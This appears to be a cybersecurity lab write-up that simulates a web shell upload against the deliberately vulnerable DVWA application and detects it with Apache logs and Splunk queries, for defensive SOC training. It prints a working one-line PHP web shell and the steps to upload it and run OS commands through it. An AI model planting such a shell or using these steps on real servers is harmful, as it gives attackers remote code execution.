





# WEB-04 — File Upload Attack (Web Shell) Detection via DVWA

   

---

## 📋 Executive Summary

A Web Shell upload attack was simulated against the DVWA File Upload module hosted on an Ubuntu EC2 web server. A malicious PHP file (`shell.php`) was uploaded to the server's upload directory. The shell was then accessed via browser and used to execute OS commands (`whoami`), returning `www-data` — confirming full Remote Code Execution (RCE). Apache access logs captured both the upload request and the shell execution, which were forwarded to Splunk. Splunk detected the attack by identifying `shell.php` access and `cmd=` parameters in the `/hackable/uploads/` directory.

---

## 🧩 Lab Environment

| Component | Details |
|---|---|
| Attacker Machine | Analyst Laptop |
| Target Server | Ubuntu EC2 — Apache2 + DVWA |
| Upload Directory | `/DVWA/hackable/uploads/` |
| SIEM | Splunk (`index = web_logs`) |
| Log Source | `/var/log/apache2/access.log` |
| DVWA Security Level | Low |
| Attacker IP | `49.43.88.146` |

---

## 🧠 What is a File Upload Attack?

A website that allows file uploads (images, documents) can be exploited if it does not validate file types. Instead of uploading a legitimate image, an attacker uploads a PHP web shell.

**Normal upload:**
```
image.jpg
```

**Malicious upload:**
```
shell.php
```

Once uploaded, the attacker accesses the file directly via the browser:
```
http://target/DVWA/hackable/uploads/shell.php?cmd=whoami
```

The server executes the PHP code, running OS commands — this is **Remote Code Execution (RCE)**.

---

## 🔴 Attack Simulation

### Step 1 — Open DVWA File Upload Module

Navigate to `http://<public-ip>/DVWA` → Login → Set DVWA Security to **Low** → Go to **File Upload** module.

<p align="center">
  
</p>


---

### Step 2 — Create the Web Shell

On your local machine, create a file named `shell.php` with this content:

```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Save the file. This is a basic PHP web shell — it reads a `cmd` parameter from the URL and executes it as an OS command.

---

### Step 3 — Upload the Shell

1. Click **Choose File** → select `shell.php`
2. Click **Upload**

If the upload succeeds, the page will show:

```
../../hackable/uploads/shell.php succesfully uploaded!
```

<p align="center">
  
</p>

---

### Step 4 — Execute OS Commands via Web Shell

Open in browser:

```
http://<your-ip>/DVWA/hackable/uploads/shell.php?cmd=whoami
```

**Expected output:**
```
www-data
```

<p align="center">
  
</p>

> *(Should show: browser URL bar with `shell.php?cmd=whoami` and `www-data` displayed as output)*

→ OS command executed successfully as the Apache web server user. **RCE confirmed.**

---

## 📄 Attack Confirmation in Apache Logs

Run on the Ubuntu EC2 server:

```bash
sudo tail -n 5 /var/log/apache2/access.log
```

You will see two key events:

**1. Shell upload request:**
```
POST /DVWA/vulnerabilities/upload/ HTTP/1.1" 200
```

**2. Shell execution request:**
```
GET /DVWA/hackable/uploads/shell.php?cmd=whoami HTTP/1.1" 200
```

These two log entries together confirm the full attack chain — file uploaded, then executed.

<p align="center">
  
</p>


---

## 🔍 Splunk Detection

Go to **Splunk → Search & Reporting** and run the queries below.

---

### Query 1 — Basic Detection (Find shell.php Access)

```spl
index=web_logs "shell.php"
```

Shows all requests that accessed the uploaded web shell.

---

### Query 2 — Detect Command Execution Parameter

```spl
index=web_logs "cmd="
```

Finds requests containing `cmd=` — the parameter used to pass OS commands to the web shell.

---

### Query 3 — Professional SOC Detection Query

```spl
index=web_logs
| search "shell.php" AND "cmd="
| stats count by clientip, uri, status
```

<p align="center">
  
</p>

---

### Query 4 — Detect Upload Directory Access

```spl
index=web_logs "/hackable/uploads/"
| stats count by clientip, uri, status
```

**From the lab results:**

| clientip | uri | status | count |
|---|---|---|---|
| 49.43.88.146 | `/DVWA/hackable/uploads/shell.php` | 404 | 1 |
| 49.43.88.146 | `/DVWA/hackable/uploads/shell.php?cmd=whoami` | 200 | 1 |
| 49.43.88.146 | `/DVWA/hackable/uploads/shell.php?cmd=whoami` | 404 | 2 |

→ HTTP 200 on `shell.php?cmd=whoami` confirms the command executed successfully.

---

### Query 5 — Full Investigation Query

```spl
index=web_logs
| search "/hackable/uploads/" OR "shell.php"
| table _time clientip uri status
| sort _time
```

→ Shows the full attack timeline — upload, then execution.

---

## 🧠 SOC Investigation Summary

### What a SOC Analyst Looks For

| Indicator | Why It's Suspicious |
|---|---|
| `/hackable/uploads/` | Files in upload directories should never be executed |
| `.php` file in uploads | PHP files in upload directories = web shell |
| `cmd=` parameter | Direct OS command execution parameter |
| `whoami`, `id`, `uname` | Classic OS commands used after RCE |
| POST followed by GET on same file | Upload then access pattern |

---

### Investigation Findings

| Question | Answer |
|---|---|
| Who is the attacker? | `49.43.88.146` (External IP) |
| What was uploaded? | `shell.php` — malicious PHP web shell |
| Where was it uploaded? | `/DVWA/hackable/uploads/` |
| What command was run? | `whoami` |
| What was returned? | `www-data` — web server user |
| Was RCE confirmed? | ✅ Yes — HTTP 200 on `shell.php?cmd=whoami` |

---

### ⚠️ Risk Assessment

| Field | Value |
|---|---|
| **Severity** | 🔴 CRITICAL |
| **Attack Type** | Web Shell Upload + RCE |
| **Execution User** | `www-data` (Apache process user) |
| **Impact** | Full OS command execution on web server |
| **Attacker** | External IP — `49.43.88.146` |

---

## 🛡️ MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Persistence | Server Software Component: Web Shell | T1505.003 |
| Execution | Command and Scripting Interpreter | T1059 |
| Initial Access | Exploit Public-Facing Application | T1190 |

---

## ✅ Recommended Actions

| Priority | Action |
|---|---|
| 🔴 Immediate | Block IP `49.43.88.146` at firewall / WAF |
| 🔴 Immediate | Delete `shell.php` from `/hackable/uploads/` |
| 🔴 Immediate | Disable PHP execution in upload directories |
| 🟠 Short-term | Implement file type validation — only allow `jpg`, `png`, `gif` |
| 🟠 Short-term | Use allowlist for file extensions — never allowlist `.php`, `.phtml` |
| 🟠 Short-term | Store uploaded files outside the web root |
| 🟡 Long-term | Deploy WAF with rules blocking `.php` uploads and `cmd=` in upload paths |
| 🟡 Long-term | Create Splunk alert for any `.php` access in `/uploads/` directories |

---

## 🎯 Conclusion

A Web Shell upload attack against DVWA was successfully simulated and detected. The attacker uploaded `shell.php` which was saved to `/DVWA/hackable/uploads/`. Accessing the shell via browser with `?cmd=whoami` returned `www-data`, confirming full RCE. Apache logs captured both the upload (`POST`) and execution (`GET`) events. Splunk identified the attacker IP `49.43.88.146` and showed HTTP 200 confirming successful command execution. This is one of the most critical web vulnerabilities — a real attacker could use this to read system files, create reverse shells, or pivot deeper into the network.

**Detection pipeline worked end-to-end. ✅**

---

## 🏁 Lab Status

| Step | Status |
|---|---|
| Web Shell Created | ✅ |
| Shell Uploaded to Server | ✅ |
| RCE Confirmed (`www-data` returned) | ✅ |
| Logs Captured in Apache | ✅ |
| Logs Forwarded to Splunk | ✅ |
| Attacker IP Identified | ✅ |
| SOC Investigation Complete | ✅ |

---

## 🎓 Learning Outcomes

- How unrestricted file upload leads to Remote Code Execution
- How a PHP web shell works (`system($_GET['cmd'])`)
- How to identify upload + execution attack chains in Apache logs
- How Splunk detects web shell activity using `shell.php` and `cmd=` searches
- Why `.php` files in upload directories are a critical security indicator
- MITRE ATT&CK mapping for web shell attacks (T1505.003)

---
